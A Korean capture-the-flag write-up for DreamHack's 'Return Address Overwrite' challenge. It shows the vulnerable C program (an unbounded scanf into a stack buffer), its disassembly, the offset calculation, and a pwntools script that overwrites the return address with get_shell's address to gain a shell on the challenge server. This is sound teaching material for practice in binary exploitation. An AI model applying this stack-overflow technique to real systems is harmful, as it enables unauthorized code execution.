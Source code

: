 ## [DreamHack] Return Address Overwrite

문제 링크: https://dreamhack.io/wargame/challenges/351/

### 난이도: Level 1

### 문제 풀이

```c
// Name: rao.c
// Compile: gcc -o rao rao.c -fno-stack-protector -no-pie

#include <stdio.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

void get_shell() {
  char *cmd = "/bin/sh";
  char *args[] = {cmd, NULL};

  execve(cmd, args, NULL);
}

int main() {
  char buf[0x28];

  init();

  printf("Input: ");
  scanf("%s", buf);

  return 0;
}

```

위 프로그램은 scanf() 함수를 사용하여 버퍼의 길이를 지정해주지 않았기에 Buffer overflow 공격을 사용하여 Return address 값을 조작할 수 있다. 

즉, **get_shell()** 함수 주소 값을 Return address 값으로 덮어 씌우면 쉘을 획득할 수 있을 것으로 보인다. 

## 바이너리 분석 

```bash
objdump -x86-asm-syntax=intel -d rao
```

```objdump

00000000004006aa <get_shell>:
  4006aa: 55                           	push	rbp
  4006ab: 48 89 e5                     	mov	rbp, rsp
  4006ae: 48 83 ec 20                  	sub	rsp, 32
  4006b2: 48 8d 05 fb 00 00 00         	lea	rax, [rip + 251]  # 4007b4 <_IO_stdin_used+0x4>
  4006b9: 48 89 45 f8                  	mov	qword ptr [rbp - 8], rax
  4006bd: 48 8b 45 f8                  	mov	rax, qword ptr [rbp - 8]
  4006c1: 48 89 45 e0                  	mov	qword ptr [rbp - 32], rax
  4006c5: 48 c7 45 e8 00 00 00 00      	mov	qword ptr [rbp - 24], 0
  4006cd: 48 8d 4d e0                  	lea	rcx, [rbp - 32]
  4006d1: 48 8b 45 f8                  	mov	rax, qword ptr [rbp - 8]
  4006d5: ba 00 00 00 00               	mov	edx, 0
  4006da: 48 89 ce                     	mov	rsi, rcx
  4006dd: 48 89 c7                     	mov	rdi, rax
  4006e0: e8 6b fe ff ff               	call	0x400550 <execve@plt>
  4006e5: 90                           	nop
  4006e6: c9                           	leave
  4006e7: c3                           	ret

00000000004006e8 <main>:
  4006e8: 55                           	push	rbp
  4006e9: 48 89 e5                     	mov	rbp, rsp
  4006ec: 48 83 ec 30                  	sub	rsp, 48
  4006f0: b8 00 00 00 00               	mov	eax, 0
  4006f5: e8 6d ff ff ff               	call	0x400667 <init>
  4006fa: 48 8d 3d bb 00 00 00         	lea	rdi, [rip + 187]  # 4007bc <_IO_stdin_used+0xc>
  400701: b8 00 00 00 00               	mov	eax, 0
  400706: e8 35 fe ff ff               	call	0x400540 <printf@plt>
  40070b: 48 8d 45 d0                  	lea	rax, [rbp - 48]
  40070f: 48 89 c6                     	mov	rsi, rax
  400712: 48 8d 3d ab 00 00 00         	lea	rdi, [rip + 171]  # 4007c4 <_IO_stdin_used+0x14>
  400719: b8 00 00 00 00               	mov	eax, 0
  40071e: e8 4d fe ff ff               	call	0x400570 <__isoc99_scanf@plt>
  400723: b8 00 00 00 00               	mov	eax, 0
  400728: c9                           	leave
  400729: c3                           	ret
  40072a: 66 0f 1f 44 00 00            	nop	word ptr [rax + rax]
```

main() 함수 부분을 보면 **sub rsp, 48** 어셈블리를 통해 (지역변수 + 더미) 크기가 48임을 알 수 있다. 

64-bit machine은 주소 크기가 8 bytes를 차지하기에 SFP 크기가 8 bytes 임을 알 수 있다. 

즉, Return address에 get_shell() 함수의 주소를 overwrite 하기 위해서는 지역변수+더미(48) + SFP(8)를 쓰레기 값으로 채우고 RET에 get_shell() 함수의 주소를 써주면 된다. 

## Exploit code 

```python
from pwn import * 

ncp = remote('host3.dreamhack.games', 23493)
payload = 'A' * 56 + '\xAA\x06\x40\x00\x00\x00\x00\x00'

ncp.sendafter('Input: ', payload) 
ncp.interactive()
```

## Flag

<img src="images/flag.png" height="200px">

